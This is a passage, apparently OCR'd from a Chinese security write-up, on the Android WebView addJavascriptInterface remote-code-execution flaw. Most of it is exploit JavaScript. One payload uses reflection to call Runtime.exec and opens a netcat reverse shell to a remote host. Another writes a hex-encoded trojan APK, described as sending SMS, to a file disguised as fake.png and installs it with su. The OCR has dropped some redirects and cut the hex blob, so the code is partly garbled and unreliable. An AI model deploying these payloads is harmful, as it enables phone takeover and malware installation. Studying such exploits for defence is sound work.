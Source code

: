  3) 利用addJavascriptInterface方法注册可供JavaScript调用的java对象 “injectedObj”，利用反射机制调用Android API getRuntime执行shell命令，达到反弹一个手机端的shell到远程控制端的目的： 

 EXP的JavaScript代码： 
```html
<html>
 <body>
 <script> 
  function execute(cmdArgs)
  {
  return injectedObj.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
  }
  execute(["/system/bin/sh","-c","rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/system/bin/sh -i 2 &1|nc x.x.x.x 9099  /tmp/f"]);
 </script>
 </body>
</html>
```

执行后的结果： 

![图例](png/webview_rce_2.png)

 4) 利用addJavascriptInterface方法注册可供JavaScript调用的java对象 “injectedObj”，利用反射机制调用Android API getRuntime执行shell命令进行挂马：a安装木马应用APK, b 安装执行ELF可执行程序； 

 简单的安装发送短信木马APK，EXP的JavaScript代码： 

```html
<html>
 <body>
 <script> 
  function execute(cmdArgs)
  {
  return injectedObj.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
  }
  var apk = "\x50\x4B\x03\x04\x14\x00\x08\x00\x08\x00\x62 \xB9\x15\x30\x3D\x07\x01\x00\x00\x7C\x01\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xD6\x0D\x00\x00\x4D\x45\x54\x41\x2D\x49\x4E\x46\x2F\x43\x45\x52\x54\x2E\x53------------------------------------------------------------ \x4D\x45\x54\x41\x2D\x49\x4E\x46\x2F\x43\x45\x52\x54\x2E\x52\x53\x41\x50\x4B\x05\x06\x00\x00\x00\x00\x07\x00\x07\x00\xBA\x01\x00\x00\xB6\x11\x00\x00\x00\x00"
  execute(["/system/bin/sh","-c","echo '"+apk+"'   /data/data/com.example.hellojs/fake.png"]);
  execute(["chmod","755","/data/data/com.example.hellojs/fake.png"]);
  execute(["su","-c","pm install -r /data/data/com.example.hellojs/fake.png"]);
 </script> 
 </body>
</html>
```
